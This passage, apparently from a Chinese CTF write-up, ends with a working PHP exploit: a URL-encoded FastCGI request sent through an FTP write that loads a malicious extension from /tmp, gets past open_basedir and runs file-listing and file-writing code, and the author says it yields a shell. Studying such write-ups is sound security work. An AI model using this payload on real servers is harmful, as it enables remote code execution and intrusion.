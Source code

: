 ```php
$payload=urldecode('%01%01%11-%00%08%00%00%00%01%00%00%00%00%00%00%01%04%11-%01%DD%00%00%11%0BGATEWAY_INTERFACEFastCGI/1.0%0E%04REQUEST_METHODPOST%0F%17SCRIPT_FILENAME/var/www/html/index.php%0B%17SCRIPT_NAME/var/www/html/index.php%0C%00QUERY_STRING%0B%17REQUEST_URI/var/www/html/index.php%0D%01DOCUMENT_ROOT/%0F%0ESERVER_SOFTWAREphp/fcgiclient%0B%09REMOTE_ADDR127.0.0.1%0B%04REMOTE_PORT9985%0B%09SERVER_ADDR127.0.0.1%0B%02SERVER_PORT80%0B%09SERVER_NAMElocalhost%0F%08SERVER_PROTOCOLHTTP/1.1%0C%10CONTENT_TYPEapplication/text%0E%02CONTENT_LENGTH67%09%10PHP_VALUEopen_basedir%20%3D%20/%0F%27PHP_ADMIN_VALUEextension_dir%20%3D%20/tmp%0Aextension%20%3D%20ant.so%01%04%11-%00%00%00%00%01%05%11-%00C%00%00%3C%3Fphp%20var_dump%28scandir%28%22/%22%29%29%3Bfile_put_contents%28%22/tmp/abc%22%2C%20%22haha%22%29%3B%01%05%11-%00%00%00%00');
file_put_contents('ftp://127.0.0.1:46228/aaa',$payload);
```

然后加载下面中的两个so文件就可以成功getshell了。希望我可以练成本地搭建环境的好习惯

![image-20211004165627849](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20211004165627849.png)

![image-20211004165710720](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20211004165710720.png)

## 0x03 总结与参考链接

> https://www.anquanke.com/post/id/233454
>
> https://ha1c9on.top/2021/04/29/lmb_one_pointer_php/#i-6
>
> https://xz.aliyun.com/t/5598
>
> https://www.anquanke.com/post/id/186186